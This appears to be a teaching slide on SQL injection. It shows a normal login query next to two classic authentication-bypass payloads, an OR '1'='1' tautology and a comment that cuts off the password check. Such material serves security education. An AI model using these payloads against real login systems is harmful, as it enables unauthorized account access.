

# Implementing a sql injection
NORMAL SQL QUERY TO LOGIN TO A DEVICE OR WEBSITE
  select * from users where username = “admin” AND password = “Lab5”;
USING “OR” PAYLOAD IN SQL QUERIES
 select * from users where username = “admin” OR ‘1’ = ‘1’ AND password = “Lab5”;
USING  “COMMENT” PAYLOAD IN SQL QUERIES
select * from users where username = “admin” OR ‘1’ = ‘1’ -- AND password = “Lab5”;